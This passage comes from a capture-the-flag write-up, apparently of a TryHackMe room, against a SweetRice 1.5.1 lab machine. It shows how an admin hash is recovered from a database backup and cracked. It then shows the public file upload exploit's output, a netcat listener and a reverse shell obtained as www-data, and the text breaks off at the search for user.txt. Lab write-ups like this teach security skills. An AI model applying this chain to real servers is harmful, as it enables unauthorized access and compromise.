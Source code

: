 
&nbsp;
download and open the ```mysql_bakup_20191129023059-1.5.1.sql file```

We now have a username and a password hash. Let's crack the hash using hashcat.

![crackstation](https://user-images.githubusercontent.com/95465072/214611298-2d296100-6907-46a2-a13a-b2b255c183f9.png)

![line-120](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/d9286575-7143-4767-b193-b5bdce1ad931)



We can now login to admin panel as we have both the username and password
![line-123](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/92c602ed-77c3-4930-be66-6367da47bc40)


We have found that there's  [Arbitrary File Upload](https://www.exploit-db.com/exploits/40716) vulnurablity. We can exploit it to upload a reverse shell script and gain access to the target machine.


```

+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.39.105/content/attachment/shell.php5
```


![127](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/125783410/e942147a-d5b2-4637-a93c-e8f553c71662)


```
❯ nc -nlvp 1234
Connection from 10.10.39.105:44046
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 09:34:23 up 33 min,  0 users,  load average: 0.00, 0.01, 0.24
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### Let's navigate the file system to find the user.txt.

